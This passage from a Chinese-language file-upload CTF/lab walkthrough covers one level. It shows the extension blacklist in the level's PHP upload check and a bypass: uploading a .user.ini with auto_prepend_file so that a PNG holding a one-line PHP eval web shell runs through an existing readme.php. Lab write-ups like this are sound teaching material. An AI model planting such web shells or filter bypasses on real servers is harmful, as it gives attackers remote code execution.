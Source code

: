 ```php
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

黑名单禁止上传
.php|.php5|.php4|.php3|.php2|php1|.html|.htm|.phtml|.pHp|.pHp5|.pHp4|.pHp3|.pHp2|pHp1|.Html|.Htm|.pHtml|.jsp|.jspa|.jspx|.jsw|.jsv|.jspf|.jtml|.jSp|.jSpx|.jSpa|.jSw|.jSv|.jSpf|.jHtml|.asp|.aspx|.asa|.asax|.ascx|.ashx|.asmx|.cer|.aSp|.aSpx|.aSa|.aSax|.aScx|.aShx|.aSmx|.cEr|.sWf|.swf|.htaccess后缀文件，并将上传文件后缀名转换成小写，删除文件名末尾的点和空格，去除字符串::$DATA，可以上传.user.ini文件绕过

.user.ini应用场景

- 服务器脚本语言为PHP，并且使用**CGI/FastCGI**模式，php版本>5.3.0
- **上传目录下要有可执行的php文件**
- 服务器脚本语言为PHP

解题思路：

```php
(1)上传.user.ini文件，内容如下：
  auto_prepend_file=shell.png
(2)上传一张shell.png图片木马，内容如下:
  <?php @eval($_POST['cmd']);?>
(3)作者给了提示在上传目录下是有一个readme.php文件的，所以直接访问此文件就可以包含上传的shell了
```

![image-20220101195139093](image/文件上传漏洞/image-20220101195139093.png)



#### 第六关
